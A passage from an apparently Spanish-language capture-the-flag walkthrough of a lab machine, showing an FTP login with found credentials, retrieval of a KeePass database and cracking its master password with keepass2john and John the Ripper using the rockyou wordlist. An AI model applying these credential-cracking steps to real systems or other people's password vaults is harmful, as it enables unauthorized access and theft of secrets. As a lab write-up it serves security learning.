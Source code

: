 Al probar con la frase obtenida, descubrimos que nos brinda acceso si la utilizamos de esta manera:

user: mario
password: marioeatslettuce

```bash
┌──(root㉿V4lcyfer)-[/home/kali]
└─# ftp 192.168.1.24 -p 2121
Connected to 192.168.1.24.
220 (vsFTPd 3.0.3)
Name (192.168.1.24:kali): mario
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> 
```

Validamos lo que encontramos dentro del FTP y descubrimos un archivo `user.kdbx`. Lo extraemos para poder analizarlo.

```bash
ftp> dir
229 Entering Extended Passive Mode (|||39266|)
150 Here comes the directory listing.
-rw-r--r--    1 0        0            1390 May 21 07:50 user.kdbx
226 Directory send OK.
ftp> get user.kdbx
local: user.kdbx remote: user.kdbx
229 Entering Extended Passive Mode (|||22445|)
150 Opening BINARY mode data connection for user.kdbx (1390 bytes).
100% |*************************************************************|  1390      435.34 KiB/s    00:00 ETA
226 Transfer complete.
1390 bytes received in 00:00 (285.77 KiB/s)
ftp> 
```
Con el archivo user.kdbx ya descargado, podemos identificar por la extensión que se trata de un archivo de KeePass. Sin embargo, está protegido por contraseña.

### 3.4 Rompiendo el hash de User.kdbx

- keepass2john: Es una herramienta utilizada para convertir archivos de bases de datos de contraseñas de KeePass (con extensión .kdbx) en un formato que puede ser procesado por herramientas de recuperación de contraseñas, como John the Ripper.

```bash                                                                                                
┌──(root㉿kali)-[/home/kali]
└─# keepass2john user.kdbx >> userhash.txt
┌──(root㉿kali)-[/home/kali]
└─# john --wordlist=/usr/share/wordlists/rockyou.txt userhash.txt
Using default input encoding: UTF-8
Loaded 1 password hash (KeePass [SHA256 AES 32/64])
Cost 1 (iteration count) is 1 for all loaded hashes
Cost 2 (version) is 2 for all loaded hashes
Cost 3 (algorithm [0=AES 1=TwoFish 2=ChaCha]) is 0 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
moonshine1       (user)     
1g 0:00:00:01 DONE (2024-08-05 22:52) 0.8695g/s 47805p/s 47805c/s 47805C/s nando1..moonshine1
Use the "--show" option to display all of the cracked passwords reliably
Session completed.                                                                                             
```
